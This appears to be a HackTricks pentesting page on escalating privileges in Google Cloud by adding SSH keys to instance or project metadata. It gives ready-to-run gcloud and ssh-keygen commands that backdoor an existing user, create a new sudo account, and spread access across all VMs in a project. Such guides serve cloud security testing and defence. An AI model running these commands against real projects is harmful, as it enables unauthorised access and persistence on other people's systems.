 # GCP - Add Custom SSH Metadata

{{#include ../../../../banners/hacktricks-training.md}}

## Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **significant security risks if an attacker gains the necessary permissions**.

### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **regularly check** the instance metadata endpoint for **updates to the authorized SSH public keys**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **integrated into the local system**. The key will be added into `~/.ssh/authorized_keys` file of an **existing user or potentially creating a new user with `sudo` privileges**, depending on the key's format. And the attacker will be able to compromise the host.

### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**

   - Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

     ```bash
     gcloud compute instances describe [INSTANCE] --zone [ZONE]
     ```

   - Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.

2. **Prepare a Text File for SSH Key Metadata:**
   - Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**

   - Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

     ```bash
     ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
     ```

   - Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.

4. **Update the Instance's SSH Key Metadata:**

   - Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

     ```bash
     gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
     ```

5. **Access the Instance Using the New SSH Key:**

   - Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

     ```bash
     ssh -i ./key alice@localhost
     sudo id
     ```

### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:

```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```

### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

It's possible to broaden the reach of SSH access to multiple Virtual Machines (VMs) in a cloud environment by **applying SSH keys at the project level**. This approach allows SSH access to any instance within the project that hasn't explicitly blocked project-wide SSH keys. Here's a summarized guide:

1. **Apply SSH Keys at the Project Level:**

   - Use the `gcloud compute project-info add-metadata` command to add SSH keys from `meta.txt` to the project's metadata. This action ensures that the SSH keys are recognized across all VMs in the project, unless a VM has the "Block project-wide SSH keys" option enabled.

     ```bash
     gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
     ```

2. **SSH into Instances Using Project-Wide Keys:**
   - With project-wide SSH keys in place, you can SSH into any instance within the project. Instances that do not block project-wide keys will accept the SSH key, granting access.
   - A direct method to SSH into an instance is using the `gcloud compute ssh [INSTANCE]` command. This command uses your current username and the SSH keys set at the project level to attempt access.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}


